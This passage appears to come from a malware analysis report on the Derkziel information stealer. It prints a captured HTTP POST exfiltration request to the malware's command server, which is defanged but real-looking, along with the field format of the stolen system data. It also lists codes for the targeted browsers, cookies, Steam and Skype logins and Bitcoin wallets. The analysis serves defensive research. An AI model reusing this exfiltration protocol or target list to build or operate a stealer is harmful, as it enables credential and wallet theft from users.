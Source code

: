 When this function returns, the sample sends the info to the C&C.

Communication Analysis
===
Until now, we have detected two versions of Derkziel (1.0 and 1.1). The payloads belong to version 1.1.

The first communication from the sample sends information about the system in which it is running:

**hxxp://fuckingyoursister[.]ru/admin/user0000002/gate.php**


    POST /admin/user0000002/gate.php HTTP/1.1
    Host: fuckingyoursister.ru
    User-Agent: Uploador
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Content-Type: multipart/form-data; boundary=---------------------------282861610524488
    Connection: close
    Content-Length: 660
    -----------------------------282861610524488
    Content-Disposition: form-data; name="data"; filename="derkziel.txt"
    Content-Type: application/octet-stream



    {#!DRZ!}0000000{!DRZ!#}MLWRE-VM{!}DRZ{!}Sarah Connor{!}DRZ{!}Windows 7 Ultimate{!}DRZ{!}64{!}DRZ{!}1{!}DRZ{!}-1851432336{!}DRZ{!}{#!DRZ!}0000022{!DRZ!#}TGFuZ3VhZ2U6IEVuZ2xpc2ggKFVuaXRlZCBTdGF0ZXMpDQpSZXNvbHV0aW9uOiAxMDI0eDc2OA0KVXB0aW1lOiAwIERheXMgMCBIb3VyIDcgTWludXRlcyAxMiBTZWNvbmRzDQpWaWRlbyBDYXJkOiBTdGFuZGFyZCBWR0EgR3JhcGhpY3MgQWRhcHRlcg0KUkRQREQgQ2hhaW5lZCBERA0KUkRQIEVuY29kZXIgTWlycm9yIERyaXZlcg0KUkRQIFJlZmxlY3RvciBEaXNwbGF5IERyaXZlcg0K
    -----------------------------282861610524488--

Fields are surrounded by {\#!DRZ!} and {#!DRZ!#} except the last one which contains information about the system. The first parameter (0000000) is parsed by gate.php and mapped to different functions. These constants can be found inside the sample and gives a hint as to the different types of information that the sample steals.

    0000000 System Info
    00000001 Google Chrome
    00000002 Yandex Browser
    00000003 Nichrome
    00000004 Comodo Dragon
    00000005 RockMelt
    00000006 Epic
    00000007 Opera
    00000008 Chromium
    00000009 CoolNovo
    0000010 Baidu
    0000011 Sleipnir
    0000012 Orbitum
    0000013 Uran
    0000014 Qip Surf
    0000015 Amigo
    0000016 Mozilla Firefox
    0000017 Steam
    0000018 Browser Cookies
    0000019 Steam Logger
    0000020 Skype Logger
    0000021 Steam SSFN
    0000022 Full System Information
    0000023 Bitcoin recursive
    0000024 Titan
    0000025 Coowon
